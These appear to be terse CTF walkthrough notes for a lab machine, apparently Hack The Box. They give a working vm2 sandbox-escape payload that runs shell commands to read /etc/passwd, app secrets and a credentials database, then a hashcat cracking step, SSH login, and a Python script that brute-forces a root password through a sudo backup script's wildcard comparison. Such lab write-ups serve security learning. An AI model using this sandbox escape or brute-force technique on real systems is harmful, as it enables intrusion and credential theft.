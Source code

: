 ### Weaponisation

### Exploitation

const {VM} = require("vm2"); const vm = new VM();

const code = `aVM2_INTERNAL_TMPNAME = {}; function stack() { new Error().stack; stack(); } try { stack(); } catch (a$tmpname) { a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat /etc/passwd'); }`

console.log(vm.run(code));

* OUTPUT:
  * /etc/passwd list
* execSync('cd /home && ls')
  * users: joshua, svc
* execSync('cd /var/www/contact && cat index.js');
  * secret: 'G3U9SHG29S872HA028DH278D9178D90A782GH
* execSync('cd /var/www/contact && cat tickets.db');
  * joshua credentials w hash
    * joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
      * hashcat -a 0 -m 3200 hash.txt /home/zihuatanejo/Desktop/rockyou.txt -w 3
        * PW: spongebob1

### User flag

* ssh joshua@10.10.11.239
  * PW: spongebob1
  * ls && cat user.txt

### Root flag

* cd /opt/scripts && ls
  * cat mysql-backup.sh
    * vuln backup script from mysql DB asking for root PW
* python script for guessing PW char by char, trying to sudo the db.sh file

***

import string import subprocess all = list(string.ascii\_letters + string.digits) password = "" found = False

while not found: for character in all: command = f"echo '{password}{character}\*' | sudo /opt/scripts/mysql-backup.sh" output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

```
    if "Password confirmed!" in output:
        password += character
        print(password)
        break
else:
    found = True
```
